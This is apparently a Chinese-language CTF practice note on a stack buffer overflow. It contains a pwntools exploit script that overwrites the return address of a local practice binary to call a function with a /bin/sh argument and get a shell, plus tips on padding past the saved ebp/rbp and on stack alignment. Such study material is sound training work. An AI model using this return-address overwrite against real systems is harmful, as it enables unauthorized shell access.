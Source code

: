 ```c

int main(){
    dofunc();
    return 0;
}
/*
ebp		->	0xdeadbeef 
eip(r)	->	func_addr
		->  0xdeadbeef
		->  argc1
		->	argc2
		->	argc3
*/
```

#### exp:

**x86**

```python
from pwn import *
context(log_level='debug',arch='i386', os='linux')
pwnfile= './question_4_2_x86'
io = process(pwnfile)
#io = remote('', )
elf = ELF(pwnfile)
rop = ROP(pwnfile)


padding = 0x14  
#padding = padding2ebp + context.word_size//8   #通过调试得到

gdb.attach(io)
pause()

return_addr = elf.symbols['func']
bin_sh_addr = 0x804C024
payload = b'a'* padding + p32(return_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)
#payload = flat(['a'*padding, return_addr])
delimiter = 'input:'
io.sendlineafter(delimiter, payload)
io.interactive()
```

**x64**

**Tips:rbp的下一行才是返回地址，所以要把rbp那一行也给覆盖了。**

**x86同理，要把ebp那行也覆盖了。**

在IDA里就是要覆盖到r（r那行不被覆盖）

打本地时发现的问题：

ubuntu18以上的版本要调栈帧
